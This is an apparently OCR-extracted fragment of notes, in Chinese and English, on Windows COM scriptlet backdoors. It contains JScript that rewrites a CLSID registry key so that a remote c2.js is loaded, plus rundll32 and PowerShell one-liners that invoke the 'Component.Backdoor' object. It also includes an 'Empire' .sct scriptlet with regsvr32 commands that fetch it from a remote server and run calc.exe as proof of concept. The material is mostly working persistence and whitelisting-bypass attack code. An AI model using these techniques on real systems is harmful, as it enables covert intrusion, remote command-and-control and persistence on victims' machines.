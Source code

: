    - demo2

     ```javascript
     ###  通过sct 文件远程注册 调用 远程 的 c2.js
     function C2Config() {
         //The default is to use the path to a local file... Here, I just rewrite the regkey, and now, the Class definition comes form the interwebs. Woo!
         var WshShell = new ActiveXObject("WScript.Shell");
         var strRegPath = "HKEY_CLASSES_ROOT\CLSID\{10001111-0000-0000-0000-00000000ACDC}\ScriptletURL\";
         WshShell.RegWrite(strRegPath, "http://127.0.0.1:8080/c2.js", "REG_SZ");
         }
     /*
     function Cleanup() { }
     //Clean your room!
     */ 
     function Main() {
         C2Config();
         //Cleanup();    
         }
     
     ### jsbackdoor 
     
     //call C2Config() from Backdoor.sct and write the path of c2.js to registry
     var x = new ActiveXObject("Component.Backdoor");
     x.Main();
      
     //call the code in c2.js to perform functionalities
     var x = new ActiveXObject("Component.Backdoor");
     x.Exec();
     
     ### 调用方法
     #### rundll32调用
     rundll32.exe javascript:"..mshtml,RunHTMLApplication ";document.write();x=new%20ActiveXObject("Component.Backdoor");x.Exec();
     b.powershell
     #### powershell 调用
     $s=New-Object -COM "Component.Backdoor";$s.Exec()
     
     
     ```

4. ##### 优化，跳过 sct 中的 exec method 进行执行

   ```xml
   <?XML version="1.0"?>
   <scriptlet>
   
   <registration
       description="Empire"
       progid="Empire"
       version="1.00"
       classid="{20001111-0000-0000-0000-0000FEEDACDC}"
       >
       <!-- regsvr32 /s /i"C:BypassBackdoor.sct" scrobj.dll -->
       <!-- regsvr32 /s /i:http://server/Backdoor.sct scrobj.dll -->
       <!-- That should work over a proxy and SSL/TLS... -->
       <!-- Proof Of Concept - Casey Smith @subTee -->
       <script language="JScript">
           <![CDATA[
   
               var r = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
   
           ]]>
   </script>
   </registration>
   ```